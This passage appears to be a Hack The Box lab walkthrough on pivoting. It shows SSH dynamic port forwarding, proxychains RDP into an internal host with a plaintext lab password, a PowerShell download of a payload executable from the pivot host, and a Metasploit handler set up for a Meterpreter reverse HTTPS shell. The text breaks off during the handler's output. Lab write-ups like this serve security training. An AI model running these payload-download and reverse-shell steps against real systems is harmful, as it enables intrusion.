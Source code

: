 Login the the pivot host with `ssh` and start a python webserver hosting the payload.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ ssh ubuntu@10.129.184.140                    
ubuntu@10.129.184.140's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
(...)
ubuntu@WEB01:~$ python3 -m http.server 8123
Serving HTTP on 0.0.0.0 port 8123 (http://0.0.0.0:8123/) ...
```

Now we need to RDP into the target. Enable dynamic port forwarding on the pivot host and make sure proxychans are confugured. Then connect.

```
┌──(kali㉿kali)-[~]
└─$ ssh -D 9050 ubuntu@10.129.184.140
(...)
┌──(kali㉿kali)-[~]
└─$ tail -4 /etc/proxychains.conf
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050

┌──(kali㉿kali)-[~]
└─$ proxychains -q xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

Download the payload from the http server hosted on the pivot host.

```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Now we need to setup `metasploit` to recieve the callback from the payload.

```
┌──(kali㉿kali)-[~/HTB/AttackingCommonServices]
└─$ msfconsole -q                    
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 8000
LPORT => 8000
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The local listener hostname
   LPORT     8000             yes       The local listener port
   LURI                       no        The HTTP Path

Exploit target:

   Id  Name
```
